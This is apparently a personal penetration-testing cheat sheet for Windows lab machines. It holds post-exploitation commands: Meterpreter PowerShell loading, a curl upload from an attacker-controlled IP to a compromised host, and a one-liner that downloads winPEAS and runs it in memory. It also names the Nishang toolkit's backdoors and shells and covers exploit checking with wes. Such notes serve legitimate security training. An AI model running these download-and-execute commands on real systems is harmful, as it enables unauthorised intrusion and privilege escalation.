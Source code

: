```yaml
---
layout: single
classes: #wide
title: "Windows Boxes"
sidebar:
    title: "Windows Boxes"
    nav: infosec
collection: infopages
permalink: /infosec/windows/
toc: true
toc_sticky: true
author_profile: true
---
```


# Powershell
`powershell -c "Command"`  
`Get-ChildItem -Path . *.txt -Recurse` - search for file (this case .txt)

## Meterpreter
`load powershell` - loads into meterpreter  
`powershell_shell`  
`shell`  

# Post shells
Uploading files: 
`powershell -c "curl 10.13.53.1:9999/$file -OutFile $file"`

# Winpeas
[Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS):  
url =   
`$url = "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe" `  
One liner to download and execute winPEASany from memory in a PS shell  
`$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("") `   

less -r file (make color coded for viewing output file of winpeas)

# Nishang
contains: 
* execution
* excalation
* backdoors
* bypass
* Scans
* shells
* and more (website [here](https://github.com/samratashok/nishang))

# wes - exploit checker for win
`systeminfo > txt`  
`wes txt` -   [site](https://github.com/bitsadmin/wesng)



